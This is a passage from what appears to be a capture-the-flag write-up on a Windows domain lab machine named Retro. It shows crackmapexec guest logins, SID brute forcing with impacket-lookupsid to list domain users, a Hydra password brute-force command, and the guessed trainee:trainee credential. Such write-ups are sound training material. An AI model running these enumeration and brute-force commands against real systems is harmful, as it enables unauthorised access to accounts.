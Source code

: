 ```
└─$ crackmapexec ldap 10.10.124.140 -u 'Guest' -p ''
SMB         10.10.124.140   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
LDAP        10.10.124.140   445    DC               [-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090AC9, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4f7c
LDAP        10.10.124.140   389    DC               [+] retro.vl\Guest:
```

Despite LDAP telling us that we'll need to perform a successful bind to LDAP, it still says that our credentials are valid.

This is great, because all we're looking for right now is the account username for the trainees. We can use `impacket-lookupsid`, which will brute force any domain SIDs that correspond to valid domain users within the AD instance. There's also an option if we want to specify for this utility to connect to SMB for it's scan, but we won't need to do that and can leave it blank.

```
└─$ impacket-lookupsid retro.vl/'Guest'@10.10.124.140 -domain-sids -no-pass

[*] Brute forcing SIDs at 10.10.124.140
[*] StringBinding ncacn_np:10.10.124.140[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2983547755-698260136-4283918172
[...snip...]
1104: RETRO\trainee (SidTypeUser)
1106: RETRO\BANKING$ (SidTypeUser)
1107: RETRO\jburley (SidTypeUser)
1108: RETRO\HelpDesk (SidTypeGroup)
1109: RETRO\tblack (SidTypeUser)
```

You'll see that it returned a few users, notably `BANKING$`(a machine account) and user accounts such as `jburley` and `tblack`. It also found a domain user named `trainee`, which we can assume is the universal trainee account that we're looking for.

# Getting User Credentials

Now based off of the text file we found in the SMB server, we know that the passwords were changed so that they are easy to remember. This means we could potentially brute force for them, which I've left an example command below as to what you'd need to brute force it with `Hydra`.

```
└─$ hydra -l 'trainee' -P /usr/share/wordlists/rockyou.txt ldap2://dc.retro.vl:389 -V
```

However you'll probably be sitting here for a while before `Hydra` returns with an empty string as the password (at least for SMB). Remember that this doesn't tell us anything, as we were allowed to authenticate successfully to both SMB and LDAP with null credentials despite them not being the correct way to authenticate.

Doing some testing around you might find that you already are looking at the password. In our case, the administrator made the password very easy to remember, being the same string as the username `trainee:trainee`.
